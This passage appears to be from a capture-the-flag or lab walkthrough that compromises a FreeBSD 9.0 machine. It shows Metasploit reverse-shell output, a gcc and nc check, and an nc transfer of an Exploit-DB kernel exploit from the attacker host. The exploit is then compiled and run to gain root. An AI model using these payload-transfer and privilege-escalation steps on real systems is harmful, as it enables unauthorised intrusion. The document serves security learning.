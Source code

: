 ```
[*] Accepted the second client connection...  
[*] Accepted the first client connection...  
[*] Accepted the second client connection...  
[*] Command: echo V5HLbXsCcLqrTr6R;  
[*] Writing to socket A  
[*] Writing to socket B  
[*] Reading from sockets...  
[*] Command: echo dcW9zf08z50hnZcW;  
[*] Writing to socket A  
[*] Writing to socket B  
[*] Reading from sockets...  
[*] Reading from socket B  
[*] B: "V5HLbXsCcLqrTr6R\r\n"  
[*] Matching...  
[*] A is input...  
[*] Reading from socket B  
[*] B: "dcW9zf08z50hnZcW\r\n"  
[*] Matching...  
[*] A is input...  
[*] Command shell session 1 opened (192.168.1.67:4444 -> 192.168.1.68:20092) at 2017-01-07 16:39:33 -0500  
[*] Command shell session 2 opened (192.168.1.67:4444 -> 192.168.1.68:40864) at 2017-01-07 16:39:33 -0500  
  
whoami  
www  
```

I won't go through all my attempts since they were many, I'm listing the important ones findings though:  

  * It's running FreeBSD 9.0 
  * No users in /home
  * System doesn't have python, bash, wget and many other stuff, it does have perl and gcc though

Easily enough, searching for an exploit for FreeBSD 9.0 was [straight-forward](https://www.exploit-db.com/exploits/28718/). I transferred the exploit file through nc, compiled it and got root.  

```console
which gcc  
/usr/bin/gcc  
cd /tmp  
wget https://www.exploit-db.com/download/28718  
wget: not found  
which nc  
/usr/bin/nc  
nc -nv 192.168.1.67 443 -w 5 > exploit.c  
Connection to 192.168.1.67 443 port [tcp/*] succeeded!  
  
gcc exploit.c  
  
./a.out  
[+] SYSRET FUCKUP!!  
[+] Start Engine...  
[+] Crotz...  
[+] Crotz...  
[+] Crotz...  
[+] Woohoo!!!  
whoami  
root  
```
